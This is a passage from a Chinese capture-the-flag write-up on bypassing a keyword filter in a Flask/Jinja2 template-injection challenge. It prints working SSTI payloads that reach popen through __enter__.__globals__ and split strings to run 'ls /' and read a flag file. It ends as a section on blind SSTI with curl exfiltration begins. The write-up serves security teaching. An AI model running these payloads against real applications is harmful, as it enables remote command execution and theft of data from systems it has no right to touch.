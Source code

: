 看到又是Flask，后面又加了PLUS，想必内容肯定没变，应该是过滤内容增加了。

打开题目康康，果然还是demo，随便造一个404，还是那个界面。

直接拿上一道题的payload去找所有的类，果然还是那么多。找到 `os._wrap_close` 类，打一发上次的payload，结果炸了：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-329c288e-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-329c288e-bd3e-1.png)

也就是说，这里更新了过滤的内容，需要bypass。

我们来探测了一下，发现这次又加了一些过滤：

\_\_init\_\_
file
\_\_dict\_\_
\_\_builtins\_\_
\_\_import\_\_
getattr
os

完蛋了了，很多方法被过滤了之后，几乎无法访问到我们所需要的方法。

到这里，我们本地机测试一下，看看有哪些方法我们可以用的：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174721-3387fce6-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174721-3387fce6-bd3e-1.png)

这里我们注意到了`__enter__`方法，查看其内容，发现其竟然有 `__globals__` 方法可用，也就是说这个`__enter__`方法与 `__init__` 方法一模一样。

这里摘抄下一段stack overflow的一段话

这里摘抄下一段stack overflow的一段话

> *   `__init__` (allocation of the class)
> *   `__enter__` (enter context)
> *   `__exit__` (leaving context)

因此 `__enter__` 仅仅访问类的内容，但这已经可以达到我们所需要的目的了。

构造payload：

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'sses__'\]()\[256\].\_\_enter\_\_.\_\_globals\_\_\['po'+'pen'\]('ls /').read()}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174722-3467f47c-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174722-3467f47c-bd3e-1.png)

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'sses__'\]()\[256\].\_\_enter\_\_.\_\_globals\_\_\['po'+'pen'\]('cat /Th1s\_is\_\_F1114g').read()}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174723-34f973de-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174723-34f973de-bd3e-1.png)

没有回显的 SSTI
----------

当目标存在 SSTI 漏洞但是没有payload执行的回显时，我们可以使用 `os.popen` 和 `curl` 将执行结果外带出来。

例如下面这道题。进入题目后，会让你输入一个姓名然后将其输出：
